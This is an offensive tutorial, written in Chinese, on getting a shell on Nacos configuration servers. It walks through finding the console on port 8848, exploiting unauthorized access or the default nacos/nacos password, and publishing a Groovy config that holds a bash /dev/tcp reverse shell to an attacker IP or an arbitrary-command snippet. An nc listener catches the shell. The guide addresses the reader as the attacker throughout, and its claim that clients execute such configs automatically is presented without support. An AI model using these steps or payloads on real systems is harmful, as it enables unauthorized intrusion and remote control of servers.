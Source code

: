 ### Nacos 如何通过配置文件拿 Shell

**1. 信息收集与漏洞探测**

首先，需要找到目标 Nacos 服务的地址和端口。常见的默认端口是 **8848**

- **访问 Nacos 控制台**：通过浏览器访问 `http://<Nacos_IP>:8848/nacos`
- **判断是否存在未授权访问**：如果无需登录即可访问控制台，则存在未授权访问漏洞
- **尝试弱口令**：如果需要登录，可以尝试使用 Nacos 的默认弱口令，例如 `nacos/nacos`

**2. 构造恶意 Groovy 配置文件**

在获取到 Nacos 控制台的权限后，下一步是构造一个包含恶意代码的配置文件

- **创建新的配置**：在 Nacos 控制台中，进入“配置管理” -> “配置列表”，点击“+”号创建新配置
- **配置参数**：
  - **Data ID**：配置的唯一标识，可以任意命名，例如 `shell.groovy`
  - **Group**：配置的分组，默认即可
  - **配置格式**：**非常关键的一步，必须选择 `Groovy`**
  - **配置内容**：在配置内容中写入恶意 Groovy 代码

以下是两种常见的 Groovy Shell 代码：

**反弹 Shell**：

```groovy
def process = "bash -i >& /dev/tcp/攻击者IP/端口 0>&1".execute()
```

请将 **攻击者IP** 和 **端口** 替换为你自己的 IP 地址和监听端口

**命令执行**：

```groovy
def process = "ls -la".execute()
def output = new StringBuilder()
process.consumeProcessOutput(output, output)
println output.toString()
```

你可以将 `ls -la` 替换为你想要执行的任意命令

**3. 发布配置并触发**

- **发布配置**：填写好 Data ID、Group 和恶意 Groovy 代码后，点击“发布”
- **触发条件**：
  - **应用程序加载配置**：目标应用程序需要集成 Nacos 并加载这个新发布的配置。通常，应用程序会通过 Nacos SDK 定期拉取配置。一旦应用加载了 `shell.groovy` 这个配置，Groovy 代码就会被执行
  - **配置刷新**：许多 Spring Boot 等应用框架在集成 Nacos 时，会配置自动刷新。当配置有更新时，应用会重新加载。

**4. 获取 Shell**

- **反弹 Shell**：在发布恶意配置前，需要在攻击者服务器上使用 `nc` 命令监听端口，例如 `nc -lvnp 端口`。一旦目标应用加载配置，你就会在监听端口上收到一个反弹回来的 Shell
- **命令执行**：如果使用命令执行的方式，执行结果会显示在 Nacos 的日志或应用日志中。但这种方式需要你多次修改配置来执行不同的命令，无法形成一个交互式的 Shell